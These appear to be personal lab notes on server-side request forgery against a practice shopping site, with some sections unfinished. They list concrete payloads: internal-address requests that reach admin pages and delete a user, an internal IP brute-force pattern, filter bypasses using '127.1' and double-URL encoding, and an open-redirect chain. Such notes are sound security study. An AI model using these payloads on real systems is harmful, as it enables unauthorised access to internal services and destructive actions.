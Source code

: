## Basic

### against the server

- stock chekcer in a shopping application queries back-end REST API:
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

> `stockApi=http://localhost/admin` => access control bypass
> `http://localhost/admin/delete?username=carlos` => delete the target user
### against other back-end systems

> `stockApi=http://192.168.0.68/admin` => access control bypass 

- say you have a ip range like `192.168.0.X`:
> **Brute Force**:  `http://192.168.0.§X§:8080/admin` -> 200 status => access control bypass

## blacklist-based input filters

> 1) **stockApi**: `http://127.0.0.1/` -> blocked
> 2) `http://127.1/` -> bypassed but `http://127.1/admin` still gets blocked
> 3) **Obfuscate the "a"**(double-URL encode): `http://127.1/%2561dmin` -> success
## whitelist-based input filters
#todo 

## via open redirection

>  1) **stockApi** -> direct ssrf isn't possible.
>  2) `path` parameter when you click "next product" -> open redirect 
>  3) `/product/nextProduct?path=http://192.168.0.12:8080/admin`
>  4) `.../delete?username=carlos` 
# Blind SSRF

### blind ssrf with shellshock exploitation
#todo
# hidden attack surface 
/gitcomm